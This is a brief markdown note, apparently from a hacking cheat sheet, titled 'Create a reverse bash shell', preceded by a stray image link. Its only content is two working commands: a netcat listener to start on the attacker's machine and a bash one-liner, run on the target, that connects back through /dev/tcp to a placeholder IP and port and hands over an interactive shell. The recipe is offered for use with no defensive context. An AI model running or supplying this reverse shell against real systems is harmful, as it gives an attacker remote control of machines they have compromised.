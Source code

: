 ### Create a reverse bash shell

Setup listener on your local machine
`sudo nc -lvn 9898`

Connect to the listener from the target
`bash -c 'bash -i >& /dev/tcp/your-ip/your-port 0>&1'`